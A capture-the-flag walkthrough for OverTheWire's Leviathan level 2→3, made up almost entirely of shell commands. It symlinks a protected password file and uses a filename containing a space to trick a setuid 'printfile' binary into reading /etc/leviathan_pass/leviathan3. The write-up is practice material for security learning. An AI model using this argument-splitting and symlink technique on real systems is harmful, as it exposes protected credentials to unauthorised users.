





# 🌊 Leviathan Level 2 → Level 3

```
ssh leviathan2@leviathan.labs.overthewire.org -p 2223
leviathan2_password
```



Once we listed the directory with ls, we noticed a file called printfile and ran it.
```
ls -la
./printfile
./printfile /etc/leviathan_pass/leviathan3
```



Next, we created a temporary folder and copied the `leviathan3` file into it.
```
mktemp -d
cd /tmp/tmp.HryDHvGNAn
ln -s /etc/leviathan_pass/leviathan3
chmod 777 .
```



After that, we created a file named `leviathan3 trick` (with a space) to fool the `printfile` program, and it worked.
```
echo 123 > "leviathan3 trick"
~/printfile leviathan3\ trick
```



Here’s another example demonstrating how the `printfile` program works.
```
echo trick123 > trick
~/printfile "leviathan3 trick"
```




Awesome! Use this flag to move on to the next level.

